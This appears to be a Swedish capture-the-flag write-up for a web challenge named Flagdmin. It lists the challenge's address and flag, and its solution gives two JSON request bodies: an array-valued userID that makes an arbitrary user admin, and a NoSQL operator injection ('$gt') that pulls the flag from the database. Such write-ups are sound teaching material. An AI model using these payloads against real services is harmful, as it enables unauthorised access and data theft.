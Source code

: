 # Web: Flagdmin

- **Skapare:** Kelvin Szolnoky
- **Poäng:** 250
- **Antal lösningar:** ???

## Beskrivning

Built with modern node.js, redis, typescript and all the good technologies, this is the service for all admins to get their flags.

http://35.228.52.143:6969/

Given fil: src/app.ts

## Flagga

SSM{nO_n0_pL332_DOn7_no5QL1}

## Lösning

Skicka följande post request (body) till /api/login

```json
{
  "userID": ["test_user_id", "admin"]
}
```

Detta kommer göra test_user_id till admin. test_user_id kan sättas till vilken sträng som helst.

Skicka följande post request (body) till /api/get/flag

```json
{
  "userID": "test_user_id",
  "flagID": { "$gt": "" }
}
```

Detta kommer hämta det första dokumentet i databasen, vilket är flaggan

